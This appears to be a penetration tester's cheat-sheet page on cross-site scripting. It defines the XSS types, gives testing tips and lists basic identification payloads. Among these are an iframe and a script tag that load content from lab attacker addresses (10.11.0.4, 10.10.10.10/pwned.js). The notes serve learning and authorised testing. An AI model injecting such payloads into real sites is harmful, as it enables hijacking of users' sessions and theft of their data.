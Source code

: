 # XSS

| [https://xsshunter.com/](https://xsshunter.com/)                                                                                               |
| ---------------------------------------------------------------------------------------------------------------------------------------------- |
| [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet) |
| [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)                         |

Cross-site scripting allows an attacker to compromise the interactions that users have with a vulnerable application. It allows an attacker to circumvent the same origin policy, which is designed to segregate different websites from each other. Cross-site scripting vulnerabilities normally allow an attacker to masquerade as a victim user, to carry out any actions that the user is able to perform, and to access any of the user's data.

XSS allows attackers to inject malicious scripts (usually JavaScript) into web pages viewed by other users. These scripts can steal cookies, session tokens, or perform actions on behalf of the user without their consent, i.e. exploit a trusted website with malicious scripts reflected (we can modify a parameter reflected in the response).

{% hint style="danger" %}
VERY IMPORTANT: Test all available inputs (input fields, URL, parameters...).&#x20;

See if we can type sth that gets reflected on the response (seen on the website).&#x20;

Then submit different chars to see which are reflected or encoded.&#x20;

If we edit the response as HTML (Dev Tools > Inspect > Edit as HTML) to see if the response was HTML encoded.

If there is any limitation (client-side checks) either use Dev Tools > Inspect or Burp to bypass them.
{% endhint %}

## Types of XSS

* Reflected XSS, where the malicious script comes from the current HTTP request and embeds the script within the immediate HTTP response.
* Stored XSS, where the malicious script comes from the website's database (stores the input and embeds it into a later response).
* DOM-based XSS, where the vulnerability exists in client-side code rather than server-side code.
* Self-XSS, only triggered if the victim themselves submits the XSS payload from their browser. Delivering normally involves socially engineering the victim to paste some attacker-supplied input into their browser. As such, it is normally considered to be a lame, low-impact issue.

## Identification / Basic payloads

{% code overflow="wrap" fullWidth="true" %}
```html
# IDENTIFY INPUT FIELDS (SUCH AS SEARCH FIELDS)
< > ' " { } ;
If the application does not remove or encode these characters in the response, it maybe vulnerable to XSS as the characters can be used to introduce codeinto the page.

# INSPECT ELEMENT, CHECK INSIDE THE MESSAGE AND IF THE OUTPUT IS FILTERED

# Content Injection
<iframe src=http://10.11.0.4/report height=”0” width=”0”></iframe>

# HTML Injection
<h1>
<marquee>

# XSS in case someone checks or loads a website
<script src="http://10.10.10.10/pwned.js"></script>
#Second option
```